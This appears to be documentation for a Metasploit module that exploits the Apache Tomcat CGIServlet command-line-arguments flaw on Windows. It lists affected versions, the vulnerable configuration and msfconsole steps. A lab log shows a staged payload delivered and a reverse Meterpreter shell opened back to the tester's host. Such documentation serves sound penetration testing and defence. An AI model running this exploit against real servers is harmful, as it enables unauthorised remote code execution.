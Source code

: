## Description

This module exploits a vulnerability in Apache Tomcat's CGIServlet component. When the enableCmdLineArguments setting is set to true, a remote user can abuse this to execute system commands, and gain remote code execution.

## Vulnerable Application

The following versions of Apache Tomcat on Windows are effected:

* 9.0.0.M1 to 9.0.17
* 8.5.0 to 8.5.39
* 7.0.0 to 7.0.93

Also, the machine needs to enable the enableCmdLineArguments option in web.xml. For example:

```xml
<servlet>
<servlet-name>cgi</servlet-name>
<servlet-class>org.apache.catalina.servlets.CGIServlet</servlet-class>
<init-param>
  <param-name>cgiPathPrefix</param-name>
  <param-value>WEB-INF/cgi</param-value>
</init-param>
<init-param>
  <param-name>executable</param-name>
  <param-value></param-value>
</init-param>
<init-param>
  <param-name>enableCmdLineArguments</param-name>
  <param-value>true</param-value>
</init-param>
<load-on-startup>5</load-on-startup>
</servlet>
```

Also:

```xml
<servlet-mapping>
<servlet-name>cgi</servlet-name>
<url-pattern>/cgi/*</url-pattern>
</servlet-mapping>
```

Next, modify the `conf\context.xml` file replacing `<Context>` with `<Context privileged="true">`

Finally, a script needs to be available in the `webapps\ROOT\WEB-INF\cgi` directory. For example:

```
@echo off
echo Content-Type: text/plain
echo.
echo Hello, World!
```

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/windows/http/tomcat_cgi_cmdlineargs`
3. Configure rhosts
4. Configure TARGETURI
5. Set a payload
6. Run the module, you should get a session.

## Scenarios

The following tests were performed against this specific setup:

* Windows 10 Pro (x64)
* Apache Tomcat 9.0.17
* JDK 8

### Check Method

The check method of the exploit explicitly triggers the bug to verify the vulnerable, therefore it should be accurate. To use it, here is an example:

```
msf5 exploit(windows/http/tomcat_cgi_cmdlineargs) > check
[+] 172.16.135.141:8080 - The target is vulnerable.
```

### Code Execution

```
msf5 exploit(windows/http/tomcat_cgi_cmdlineargs) > exploit

[*] Started reverse TCP handler on 172.16.135.1:4444 
[*] Checking if 172.16.135.141 is vulnerable
[*] 172.16.135.141 seems vulnerable, what a good day.
[*] Command Stager progress -   6.95% done (6999/100668 bytes)
[*] Command Stager progress -  13.91% done (13998/100668 bytes)
[*] Command Stager progress -  20.86% done (20997/100668 bytes)
[*] Command Stager progress -  27.81% done (27996/100668 bytes)
[*] Command Stager progress -  34.76% done (34995/100668 bytes)
[*] Command Stager progress -  41.72% done (41994/100668 bytes)
[*] Command Stager progress -  48.67% done (48993/100668 bytes)
[*] Command Stager progress -  55.62% done (55992/100668 bytes)
[*] Command Stager progress -  62.57% done (62991/100668 bytes)
[*] Command Stager progress -  69.53% done (69990/100668 bytes)
[*] Command Stager progress -  76.48% done (76989/100668 bytes)
[*] Command Stager progress -  83.43% done (83988/100668 bytes)
[*] Command Stager progress -  90.38% done (90987/100668 bytes)
[*] Command Stager progress -  97.34% done (97986/100668 bytes)
[*] Sending stage (179779 bytes) to 172.16.135.141
[*] Meterpreter session 1 opened (172.16.135.1:4444 -> 172.16.135.141:51982) at 2019-06-18 15:26:54 -0500
[*] Command Stager progress - 100.02% done (100692/100668 bytes)

meterpreter > 
[!] Make sure to manually cleanup the exe generated by the exploit
```

